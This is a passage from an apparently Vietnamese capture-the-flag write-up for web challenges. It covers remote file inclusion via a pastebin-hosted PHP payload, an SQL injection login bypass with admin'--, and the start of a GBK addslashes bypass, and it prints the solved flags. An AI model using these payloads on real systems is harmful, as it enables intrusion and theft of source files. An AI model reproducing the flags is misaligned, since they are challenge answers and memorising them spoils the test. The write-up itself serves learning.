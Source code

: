 - Dùng paste bin để lấy flag:

```php
<?php echo file_get_contents('index.php'); ?>
```

![1](https://i.imgur.com/kHd0Xgr.png)

- Submit link này vào là có flag:

```
?lang=https://pastebin.com/raw/Hc61Dy9h?
```

```
Flag: R3m0t3_iS_r3aL1y_3v1l
```

# 38. SQL injection - Authentication

- Thử với: 

```
username = admin'--
password = admin
```

- Ta được:

![1](img/38/Screenshot%20from%202023-01-16%2015-27-50.png)

```
Flag: t0_W34k!$
```

# 39. SQL injection - Authentication GBK

- GBK bao gồm tất cả ký tự Trung Quốc được định nghĩa trong unicode.

- Thường thì bên server sẽ sử dụng để bypass hàm `addslashes()`.    - `addslashes()` dùng để thêm một dấu gạch chéo ngược (\\) phía trước các ký tự là dấu nháy kép, dấu nháy đơn và dấu gạch chéo ngược trong chuỗi.
